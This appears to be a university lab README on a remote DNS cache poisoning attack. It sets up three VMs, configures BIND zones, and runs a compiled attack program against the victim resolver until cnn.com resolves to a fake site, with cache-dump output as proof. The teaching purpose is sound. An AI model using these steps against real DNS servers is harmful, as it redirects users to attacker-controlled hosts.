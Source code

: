 ## Remote DNS Cache Poisoning Attack

### Requirement

In this lab, you will poison the cache of a local DNS server, and thus affect clients who rely on this DNS server. More specifically, we want clients who access www.cnn.com go to fakenews.com.

### Setup

3 Linux VMs: Victim (DNS) Client, Victim (DNS) Server, Attacker. All 3 VMs are located in the same network - however, we are not allowed to exploit this fact for the attacks, in other words, the attacker in this lab is not allowed to use wireshark to sniff any packets, or use the *netwox* command to inject forged DNS responses. After all, this lab is trying to demonstrate how attackers from a remote network can still perform DNS cache poisoning.

The following is the IP addresses for the VMs used in this README.

| VM  |  IP Address   |              Role                     |
|-----|---------------|---------------------------------------|
| VM1 | 172.16.77.128 |   victim DNS client                   |
| VM2 | 172.16.77.129 |   victim local DNS server             |
| VM3 | 172.16.77.130 |   attacker, attacker's DNS server     |

### Steps

1. on victim client, configure DNS server information, i.e., let the client know the IP address of the DNS server.

1.1. add this line to the end of file /etc/resolvconf/resolv.conf.d/head (remember to replace DNS_SERVER_IP with your victim DNS server's IP address, plus, you need "sudo" if you edit the file using vi/vim.)

```console
nameserver DNS_SERVER_IP
```

this screenshot shows editing the file in *vi*:
![alt text](lab-dns-edit-file.png "edit the file")

this screenshot shows the file is now edited:
![alt text](lab-dns-configure-dns.png "configure dns")

1.2. run the following command so the above change will take effect:

```console
# sudo resolvconf -u
```

![alt text](lab-dns-resolvconf.png "resolvconf command")

2. setting up the local DNS server

2.1. add the following into /etc/bind/named.conf (so that it forwards all requests for the attacker32.com domain to the malicious DNS server).

```console
zone "attacker32.com" {
    type forward;
    forwarders {
        172.16.77.130; // replace 172.16.77.130 with your attacker VM's IP address, do not remove the ";".
    };
};
```

**Explanation**: the added lines are saying, for DNS inquiries regarding this attacker32.com domain, please forward the inquiries to 172.16.77.130. we do this so that we don't need to actually purchase the domain attacker32.com.

2.2. copy named.conf.options into /etc/bind/ directory, and also copy named.conf.default-zones into /etc/bind/ directory.

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo cp named.conf.default-zones /etc/bind/
[05/29/22]seed@VM:~/.../remotedns$ sudo cp named.conf.options /etc/bind/
```

**Explanation**: these two files will overwrite the default files, and with these two files, now the victim local DNS server is configured to forward all DNS requests to 1.2.3.4, which does not provide DNS services, and then later on the attacker will impersonate 1.2.3.4 to send forged responses to the victim local DNS server.

2.3. restart DNS server so the above changes will take effect:

```console
$ sudo service bind9 restart
```

3. setting up the attacker DNS server.

3.1. copy attacker32.com.zone and cnn.com.zone into /etc/bind/ directory.

3.2. add the following into /etc/bind/named.conf (so that the above two configuration files will be used):

```console
zone "attacker32.com" {
    type master;
    file "/etc/bind/attacker32.com.zone";
};

zone "cnn.com" {
    type master;
    file "/etc/bind/cnn.com.zone";
};
```

3.3. restart attacker's DNS server so the above changes will take effect:

$ sudo service bind9 restart

4. on victim client, send a query.

```console
# dig www.cnn.com 
```

```console
# dig @ns.attacker32.com www.cnn.com
```

the first *dig* command should show you the correct mapping: 

whereas the second *dig* command should show you that www.cnn.com is mapped to 188.126.71.216, which is the IP address of fakenews.com.
![alt text](lab-dns-attack-success-p1.png "attack success")
![alt text](lab-dns-attack-success-p2.png "attack success")

the goal of this attack is, when the victim runs either of the above two commands, the victim will get the same result, i.e., www.cnn.com is mapped to the IP address of fakenews.com.

5. launch the attack: on the attacker's VM,

```console
[05/29/22]seed@VM:~/.../remotedns$ gcc -o attack attack.c
[05/29/22]seed@VM:~/.../remotedns$ sudo ./attack 172.16.77.130 172.16.77.129
```

**Note**: replace 172.16.77.130 with your attacker VM's IP address, replace 172.16.77.129 with your victim server VM's IP address.

6. the attack may take a couple of minutes. on victim DNS server VM, we can check the cache to verify if the cache is poisoned or not.

```console
[05/29/22]seed@VM:~$ sudo rndc dumpdb -cache
[05/29/22]seed@VM:~$ cat /var/cache/bind/dump.db | grep attacker
ns.attacker32.com.	9992	\-AAAA	;-$NXRRSET
; attacker32.com. SOA ns.attacker32.com. admin.attacker32.com. 2008111001 28800 7200 2419200 86400
cnn.com.		65529	NS	ns.attacker32.com.
; ns.attacker32.com [v4 TTL 1792] [v6 TTL 9992] [v4 success] [v6 nxrrset]
```

as long as we see this NS record which associates cnn.com. to ns.attacker32.com., then we know the cache is now poisoned.

7. we can then verify the result from victim client. on the victim client VM, we just need to send a query.

```console
# dig www.cnn.com 
```

```console
# dig @ns.attacker32.com www.cnn.com
```

these two commands should now show the same result, which is www.cnn.com is mapped to 188.126.71.216, which is the IP address of fakenews.com.

7. you are recommended to remove the line you added on the victim client VM in step 3, in this file: /etc/resolvconf/resolv.conf.d/head, so that your future experiments won't be affected.

8. you are also recommended to restore the two files on the victim server VM:

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo cp named.conf.default-zones.orig /etc/bind/
[05/29/22]seed@VM:~/.../remotedns$ sudo cp named.conf.options.orig /etc/bind/
```
